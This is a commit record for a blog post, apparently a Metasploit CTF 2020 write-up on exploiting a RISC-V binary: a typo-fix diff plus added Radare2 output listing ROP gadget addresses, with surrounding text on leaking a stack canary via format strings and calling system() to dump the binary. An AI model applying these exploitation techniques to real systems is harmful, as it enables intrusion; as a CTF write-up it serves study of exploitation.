

Before and after one commit to phra/phra.github.io, a Jekyll site: the page built from posts/metasploit-ctf-2020-five-of-hearts.md, in a window 1280 px wide and 1400 px high, scrolled down 8927 px. Shown: the whole window at 89% size, without its empty margins (108-1171 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
fix typos

````diff
--- a/posts/metasploit-ctf-2020-five-of-hearts.md
+++ b/posts/metasploit-ctf-2020-five-of-hearts.md
@@ -61,7 +61,7 @@
 - since the `%p` specifier is printing 8-bytes values, it means that the application is running on a 64-bit architecture.
 - we can identify the canary value because it always ends with a `\x00` character and in this case it's `0xf6d0049f13023b00`.
 - we leak some addresses that doesn't really make sense in a X86_64 architecture, such as `0x103aa`.
-- if we send the payload multiple times, we notices every time a different canary values, indicating that the application is restarted after each connection and it's likely exposed on the network by the [inetd](https://www.freebsd.org/cgi/man.cgi?inetd(8)) service.
+- if we send the payload multiple times, we notices every time different canary values, indicating that the application is restarted after each connection and it's likely exposed on the network by the [inetd](https://www.freebsd.org/cgi/man.cgi?inetd(8)) service.
 
 After discovering this _critical intel_, the next step is to convert this ability in a arbritary read primitive in order to be able to leak the binary from memory and proceed to static analysis.
 
@@ -345,7 +345,7 @@
 - `afn execve`: rename it to `execve`
 - `axt`: find x-refs to the `execve` function
 - `s 0x1539a`: seek to a specific call that we think to be the one in the `system` function
-- `pd 25`: disassemble the next 25 instructions to discover the beginning of this function
+- `pd 25`: disassemble the next 25 instructions to discover the beginning of this function since Radare2 is not able to understand to which function the gadget belongs to
 - `s 0x000153a2`: seek to it
 - `afn system`: rename the symbol to `system`
 
@@ -375,6 +375,27 @@
 We can use the following command to retrieve all the `a0` gadget available in the executable:
 
 ```text
+[0x000101f8]> "/ad/ *; *; *; ret"
+...
+0x0004b3bc   # 8: addi a4, a4, 8; mv a0, a4; sd a5, 0(a3); ret
+0x0004b640   # 8: li a0, 0; ret; ld a0, 0(a1); ret
+0x0004ba0e   # 8: ld s10, 32(sp); ld s11, 24(sp); addi sp, sp, 128; ret
+0x0004bc80   # 8: ld s4, 80(sp); ld s5, 72(sp); addi sp, sp, 128; ret
+0x0004c494   # 10: j 0x4c3d4; lw a5, 0(a0); bnez a5, 0x4c496; ret
+0x0004c918   # 8: addi a4, a4, 8; mv a0, a4; sd a5, 0(a3); ret
+0x0004cd28   # 8: ld s1, 8(sp); ld s2, 0(sp); addi sp, sp, 32; ret
+0x0004d538   # 8: ld s1, 8(sp); ld s2, 0(sp); addi sp, sp, 32; ret
+[0x000101f8]> "/ad/ *; *; *; ret" | grep 'ld a0'
+...
+0x00066ee8   # 2: ld a0, 280(sp)
+0x00066eea   # 2: ld a0, 88(sp)
+0x00066eec   # 2: ld a0, 280(sp)
+0x00066f0d   # 2: ld a0, 200(a0)
+0x00066f16   # 2: ld a0, 344(sp)
+0x000678b0   # 2: ld a0, 96(a1)
+0x00068216   # 2: ld a0, 0(s0)
+0x00068960   # 2: ld a0, 8(a2)
+0x00068afd   # 2: ld a0, 8(s0)
 [0x000101f8]> "/ad/ *; *; *; ret" | grep 'ld a0' | cut -d',' -f2 | sort -nr | uniq | grep sp
 ...
  112(sp)
@@ -440,7 +461,7 @@
 ```
 
 We will be able to login via SSH locally on port 1234 as `root:riscv`.
-Here we can install GDB and debug the binary to get the correct offset for the gadget and confirm that we correctly identified the `system(3)` function by putting a breakpoint or stepping after sending the `hack` string that will execute `system("/bin/cat /qemu/arnold")` in order to print the executable on _stdout_.
+Here we can install GDB and debug the binary to get the correct offset for the gadget and confirm that we correctly identified the `system(3)` function by putting a breakpoint or stepping after sending the `hack` string that will execute `system("/bin/cat /qemu/arnold")` in order to print the executable to _stdout_.
 
 ## Final Exploit
 
````
